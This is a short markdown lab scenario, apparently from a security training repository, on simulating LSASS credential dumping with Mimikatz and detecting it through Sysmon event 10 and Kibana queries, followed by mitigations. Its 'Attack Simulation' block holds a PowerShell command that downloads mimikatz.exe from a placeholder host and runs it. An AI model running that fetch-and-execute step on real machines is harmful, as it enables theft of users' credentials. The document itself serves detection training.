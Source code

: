 # 🛡️ Scenario 5: Credential Dumping via Mimikatz

## 🎯 Objective

Simulate LSASS credential dumping using Mimikatz and detect the behavior with Sysmon.

---

## 🧪 Attack Simulation

```powershell
Invoke-WebRequest -Uri "https://example.com/mimikatz.exe" -OutFile "$env:TEMP\mimikatz.exe"
Start-Process "$env:TEMP\mimikatz.exe"
```

---

## 📊 Detection

### 🧠 Sysmon Event IDs

| Event ID | Description                  |
|----------|-------------------------------|
| 10       | Access to LSASS              |

---

## 🔍 Kibana Queries

```kql
winlog.event_id:10 AND winlog.event_data.TargetImage.keyword:"*lsass.exe"
process.name: "mimikatz.exe"
```


## 🛡️ Mitigation

- Enable Credential Guard.
- Detect unsigned binaries accessing lsass.exe.
- Restrict debug privileges.
